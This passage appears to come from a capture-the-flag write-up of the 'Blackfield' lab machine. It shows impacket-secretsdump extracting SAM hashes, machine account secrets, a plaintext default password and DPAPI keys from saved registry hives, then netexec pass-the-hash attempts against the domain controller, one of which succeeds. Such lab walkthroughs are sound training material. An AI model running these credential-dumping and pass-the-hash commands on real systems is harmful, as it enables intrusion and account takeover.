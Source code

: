 `impacket-secretsdump -system ./smbshare/SYSTEM.save -security ./smbshare/SECURITY.save -sam ./smbshare/SAM.save LOCAL`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051::: ←
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC ←
$MACHINE.ACC:plain_password_hex:e10f62cee046bc8be707e1157928c2334fca6653d6a974a0429d31f3c24e48a474cb725b1ac3eb78cc9cc1903300164be0e06b34047afe1c523a0fa431dab865f6e53b911f9ae19c441190753e58592828068ece713acc5db2f18b826e314023b28a1448b3349002787b4d4e9edc242c7f73aa5d880b2d18aa4ff2e53322cb80757915b495d8071a4e201288b9191f94685458301b7c9add9cfa32ff25411f6a51add38215a4a0bc38a64c455b8aa62e77baf44abf70ecff3f8196721815370bdfdf089dc533afa2b330c106d86b9371bc59005298755672774b5ffb4e19e4f82315547ae064bb7639da01d952c79566
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:a7b601d4359c85e4ebf89f4ec94d571e ←
[*] DefaultPassword 
(Unknown User):###_ADM1N_3920_###
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd4834e39bca0e657235935730c045b1b9934f690
dpapi_userkey:0x9fa187c3b866f3a77c651559633e2e120bc8ef6f
[*] NL$KM 
 0000   88 01 B2 05 DB 70 7A 0F  EF 52 DF 06 96 76 4C A4   .....pz..R...vL.
 0010   BD 6E 62 D1 06 63 1A 7E  31 2F A2 6D F8 6C 42 50   .nb..c.~1/.m.lBP
 0020   FC 8D 5C A4 FC 46 1B DC  7E CA 7E 76 7F 5E C2 74   ..\..F..~.~v.^.t
 0030   CF EB B6 1F 99 8A 29 CF  2C D1 1D 55 C6 01 2E 6F   ......).,..U...o
NL$KM:8801b205db707a0fef52df0696764ca4bd6e62d106631a7e312fa26df86c4250fc8d5ca4fc461bdc7eca7e767f5ec274cfebb61f998a29cf2cd11d55c6012e6f
[*] Cleaning up... 
```

`netexec smb 10.10.10.192 -u 'Administrator' -H '67ef902eae0d740df6257f273de75051'`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:67ef902eae0d740df6257f273de75051 STATUS_LOGON_FAILURE
```
❌

`netexec smb 10.10.10.192 -u ./domain_users.txt -H 'a7b601d4359c85e4ebf89f4ec94d571e'`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:a7b601d4359c85e4ebf89f4ec94d571e STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Guest:a7b601d4359c85e4ebf89f4ec94d571e STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\krbtgt:a7b601d4359c85e4ebf89f4ec94d571e STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\DC01$:a7b601d4359c85e4ebf89f4ec94d571e ←
```
